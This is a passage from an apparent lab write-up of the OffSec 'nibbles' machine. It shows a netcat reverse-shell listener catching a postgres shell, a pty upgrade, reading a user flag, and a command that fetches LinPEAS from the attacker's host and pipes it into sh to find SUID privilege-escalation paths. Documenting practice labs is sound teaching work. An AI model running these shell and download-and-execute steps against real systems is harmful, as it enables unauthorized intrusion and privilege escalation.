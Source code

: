 ```
┌──(kali㉿kali)-[~/offsec/nibbles]
└─$ nc -lnvp 80  
listening on [any] 80 ...
connect to [192.168.45.172] from (UNKNOWN) [192.168.199.47] 52690
whoami
postgres
```

We quickly find out first flag in user `wilson`'s home directory:

```
python -c 'import pty; pty.spawn("/bin/bash")'
postgres@nibbles:/var/lib/postgresql/11/main$ cd /home/      
cd /home/
postgres@nibbles:/home$ ls
ls
wilson
postgres@nibbles:/home$ cd wilson
cd wilson
postgres@nibbles:/home/wilson$ ls
ls
ftp  local.txt
postgres@nibbles:/home/wilson$ cat local.txt
cat local.txt
5eaf2c6065aa0e8a4934687cf151ece2
```

## Privilege Escalation

It's time for... you guessed it... LinPEAS!

Expect that nothing resolves on this box... so I download it to Kali and serve it over HTTP.

```
┌──(kali㉿kali)-[~/offsec/nibbles]
└─$ python -m http.server 5437
Serving HTTP on 0.0.0.0 port 5437 (http://0.0.0.0:5437/) ...
```

I download it on the victim host:

```
postgres@nibbles:/home/wilson$ wget -O- http://192.168.45.172:5437/linpeas.sh | sh
<wget -O- http://192.168.45.172:5437/linpeas.sh | sh
--2024-03-13 01:20:21--  http://192.168.45.172:5437/linpeas.sh
Connecting to 192.168.45.172:5437... connected.
HTTP request sent, awaiting response... 200 OK
```

and pretty quickly we get value!

```
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
        (... other results ...)
-rwsr-xr-x 1 root root 309K Feb 16  2019 /usr/bin/find
        (... other results ...)
```
